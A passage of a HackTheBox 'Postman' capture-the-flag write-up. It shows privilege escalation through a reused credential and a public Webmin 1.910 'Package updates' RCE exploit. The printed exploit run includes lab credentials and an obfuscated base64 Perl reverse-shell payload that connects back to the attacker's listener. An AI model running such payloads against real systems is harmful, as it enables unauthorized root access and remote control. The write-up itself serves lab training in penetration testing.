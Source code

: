 ```bash
ls
nano justincase.txt
```

I cannot access the server directory, but maybe I am able to read the justincase.txt file. I remembered that I saw in LinPEAS that webmin runs as root. It is common that it uses system credentials. So I checked it, because it may be used for privesc:

![Untitled](/assets/images/2022-05-18-postman/Untitled.png)

It worked, so I can search for an authenticated RCE for this version of webmin. I found a few, but only this seems to work with python3:

[Webmin-1.910-Package-Updates-RCE/exploit_poc.py at master · NaveenNguyen/Webmin-1.910-Package-Updates-RCE](https://github.com/NaveenNguyen/Webmin-1.910-Package-Updates-RCE/blob/master/exploit_poc.py)

I download it, start a netcat listener and execute it:

```bash
┌──(user㉿KaliVM)-[/hackthebox/oscp-prep/postman]
└─$ python3 exploit.py  --ip_address=postman.htb --port=10000 --lhost=10.10.16.7 --lport=4444 --user=Matt --pass=computer2008 

Webmin 1.9101- 'Package updates' RCE

[+] Generating Payload...
[+] Reverse Payload Generated : u=acl%2Fapt&u=%20%7C%20bash%20-c%20%22%7Becho%2CcGVybCAtTUlPIC1lICckcD1mb3JrO2V4aXQsaWYoJHApO2ZvcmVhY2ggbXkgJGtleShrZXlzICVFTlYpe2lmKCRFTlZ7JGtleX09fi8oLiopLyl7JEVOVnska2V5fT0kMTt9fSRjPW5ldyBJTzo6U29ja2V0OjpJTkVUKFBlZXJBZGRyLCIxMC4xMC4xNi43OjQ0NDQiKTtTVERJTi0%2BZmRvcGVuKCRjLHIpOyR%2BLT5mZG9wZW4oJGMsdyk7d2hpbGUoPD4pe2lmKCRfPX4gLyguKikvKXtzeXN0ZW0gJDE7fX07Jw%3D%3D%7D%7C%7Bbase64%2C-d%7D%7C%7Bbash%2C-i%7D%22&ok_top=Update+Selected+Packages
[+] Attempting to login to Webmin
[+] Login Successful
[+] Attempting to Exploit
```
